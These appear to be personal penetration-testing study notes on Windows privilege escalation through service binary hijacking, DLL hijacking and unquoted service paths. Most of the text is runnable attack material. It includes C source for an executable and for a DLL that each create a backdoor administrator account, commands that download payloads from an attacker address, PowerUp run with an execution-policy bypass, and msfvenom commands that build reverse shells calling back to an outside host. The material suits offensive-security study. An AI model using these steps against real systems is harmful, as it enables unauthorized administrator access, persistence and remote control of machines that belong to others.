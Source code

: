 # Service Binary Hijacking

Get a list of Services running

```
PS C:\Users\gdraper> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Check a service binary's ACL using icacls

```
PS C:\USers\gdraper icacls "C:\xampp\apache\bin\httpd.exe"
```

Permissions Table
```
Mask	Permissions
F	Full access
M	Modify access
RX	Read and execute access
R	Read-only access
W	Write-only access
```

basic c program to create a new user and add to local administrators

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user gdraper2 password123! /add");
  i = system ("net localgroup administrators gdraper2 /add");
  
  return 0;
}
```

Next use mingw32-gcc to make a binary

```
kali@kali:~$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

send it across to the target windows machine:

```
PS C:\Users\gdraper> iwr -Uri 'http://192.168.250.7/adduser.exe -Outfile adduser.exe

PS C:\Users\gdraper> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\gdraper> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

stop and restart the service
```
PS C:\Users\gdraper> net stop mysql
```

To check StartMode of service:

```
PS C:\Users\gdraper> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

Name  StartMode
----  ---------
mysql Auto
```

So it will start the service on boot / restart of machine.

Another way is to use PowerUp.ps1

```
kali@kali:~$ cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
```

```
PS C:\Users\gdraper> iwr -uri http://192.168.250.7/PowerUp.ps1 -Outfile PowerUp.ps1
PS C:\Users\gdraper> powershell -ep bypass
PS C:\Users\gdraper> . .\PowerUp.ps1
PS C:\Users\gdraper> Get-ModifiableServiceFile

PS C:\Users\gdraper> Install-ServiceBinary -Name 'mysql'
```

alternatively you can use msfvenom to create a netcat reverse shell that will survive when run as a service binary.

```
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.250.7 LPORT=443 -f exe-service -o shell-service.exe
```

# DLL Hijacking

Get list of aps installed

```
PS C:\Users\gdraper> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

Search order for dlls
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

C Code for a dll that can be used if an app is searching for and is missing a dll.

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user gdraper3 password123! /add");
  	    i = system ("net localgroup administrators gdraper3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

now use mingq to create a 'shared' library, ie a dll.

```
kali@kali:~$ x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```

Alternatively you can use msfvenom to create a dll that will run as a reverse shell

```
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.250.7 LPORT=443 -f dll -o shell.dll
```

# Unquoted Service Paths

Example of Windows will try to locate the correct path of an unquoted service path

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

WinPEAS or PowerUp.ps1 can list unquoted service paths easily, but alos manually there is:

```
C:\Users\gdraper> wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

find a directory in that path you can write to such as 

```
icacls "C:\"
```

```
icacls "C:\Program Files"
```

```
icacls "C:\Program Files\My Program"
```

then replace the service with the msfvenom netcat reverse shell

```
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.250.7 LPORT=443 -f exe-service -o shell-service.exe
```